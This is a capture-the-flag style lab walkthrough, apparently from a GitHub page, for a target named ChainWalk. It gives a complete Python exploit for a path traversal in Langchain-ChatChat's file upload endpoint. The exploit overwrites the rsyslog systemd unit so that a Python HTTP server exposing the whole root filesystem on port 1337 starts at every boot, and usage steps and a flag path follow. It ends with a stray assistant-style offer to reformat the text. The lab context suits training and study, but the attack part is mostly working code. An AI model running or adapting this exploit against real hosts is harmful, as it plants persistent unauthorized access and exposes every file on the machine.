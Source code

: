## ChainWalk Walkthrough

### Setup

From your **attacker machine**, navigate to the `walkthrough` directory and ensure you have the **target VM's IP address**.

### Exploit Logic

`exploit.py`:

```python
import requests

url = "http://127.0.0.1:7861/v1/files?purpose=assistants"

service_path = "../../../../../../../../../../etc/systemd/system/rsyslog.service"

service_content = """[Unit]
Description=Evil Python HTTP Server
After=network.target

[Service]
Type=simple
ExecStart=/usr/bin/python3 -m http.server 1337
ExecStartPost=/bin/echo "HTTP server running on port 1337"
Restart=always

[Install]
WantedBy=multi-user.target
"""

files = {
    "file": (service_path, service_content, "text/plain")
}
r = requests.post(url, files=files)
print("[+] rsyslog.service hijacked and uploaded:", r.status_code)
```

This exploit targets a **vulnerable file upload endpoint** exposed by Langchain-ChatChat on port `7861`. Specifically:

* The endpoint `/v1/files?purpose=assistants` is vulnerable to **path traversal** (CVE-2025-6855).
* By crafting a filename with `../../../../../`, the script **escapes the upload directory** and writes a file to `/etc/systemd/system/rsyslog.service`.
* Instead of the legitimate system logging service, the overwritten `rsyslog.service` starts a **Python HTTP server** on port `1337` each time the system boots.

Because the VM has no login access, this approach works by **modifying the system startup behavior**. After reboot, the Python server runs automatically — no user login is required.

Once running, this server serves the filesystem from the root directory, giving remote access to files.

### Usage

1. Run the exploit from your attacker machine:

   ```bash
   python3 exploit.py
   ```

2. If successful, you’ll see:

   ```
   [+] rsyslog.service hijacked and uploaded: 200
   ```

3. Now, **reboot the VM** (power it off and turn it back on). No need to log in.


### Step 5: Access the Filesystem

Once the VM restarts, visit the following from your attacker machine:

```
http://<TARGET_VM_IP>:1337
```

You will see a **directory listing of the target machine’s filesystem**, served via Python’s built-in HTTP server.

---

### Step 6: Capture the Flag

Browse to the following path in the web interface:

```
home/vboxuser/chainwalk/build/flag_{CHAINWALK}.txt
```

Download or view the file to capture the flag.

---

Let me know if you want this converted into a `README.md`, PDF, or HTML format.

